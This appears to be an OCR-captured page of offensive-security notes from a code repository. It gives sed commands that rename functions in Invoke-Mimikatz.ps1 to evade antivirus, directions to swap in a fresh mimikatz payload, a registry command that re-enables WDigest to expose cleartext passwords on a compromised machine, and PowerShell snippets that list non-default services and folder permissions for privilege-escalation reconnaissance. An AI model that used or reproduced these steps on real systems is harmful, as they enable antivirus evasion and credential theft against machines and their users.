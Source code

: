 Perform antivirus activities bypass AV machines

# Invoke-Mimikatz.ps1 (obfuscated functions)

- sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1
- sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
- sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
- sed -i -e 's/ArgumentPtr/Obf/g' Invoke-Mimikatz.ps1
- sed -i -e 's/CallDllMainSC1/ObfSC1/'g Invoke-Mimikatz.ps1
- sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

#-# On Windows

Replace the $PESBytes64 with a new one of mimikatz
Lavereging the Steroids-Module for obfuscation


# Subverting mimikatz patch (on compromise machine to extract clear text password)
```
- add HKLM\SYSTEM\CurrentControlSet\Conttol\SecurityProviders\WDigest /v UserLogonCredential /t REG_DWORD /d 1 /f
```

# Get NON default Services
```
$NonDefaultServices = Get-wmiobject win32_service | where { $_.Caption -notmatch "Windows" -and $_.PathName -notmatch "Windows" -and $_.PathName -notmatch "policyhost.exe" -and $_.Name -ne "LSM" -and $_.PathName -notmatch "OSE.EXE" -and $_.PathName -notmatch "OSPPSVC.EXE" -and $_.PathName -notmatch "Microsoft Security Client" }
```
- $NonDefaultServices.DisplayName # Service Display Name (full name)
- $NonDefaultServices.PathName # Service Executable
- $NonDefaultServices.StartMode # Service Startup mode
- $NonDefaultServices.StartName # Service RunAs Account
- $NonDefaultServices.State # Service State (running/stopped etc)
- $NonDefaultServices.Status # Service Status
- $NonDefaultServices.Started # Service Started status
- $NonDefaultServices.Description # Service Description

# Get Permission
```
function Get-Permissions ($folder) {
  (get-acl $folder).access | select `
		@{Label="Identity";Expression={$_.IdentityReference}}, `
		@{Label="Right";Expression={$_.FileSystemRights}}, `
		@{Label="Access";Expression={$_.AccessControlType}}, `
		@{Label="Inherited";Expression={$_.IsInherited}}, `
		@{Label="Inheritance Flags";Expression={$_.InheritanceFlags}}, `
		@{Label="Propagation Flags";Expression={$_.PropagationFlags}} | ft -auto
}
```
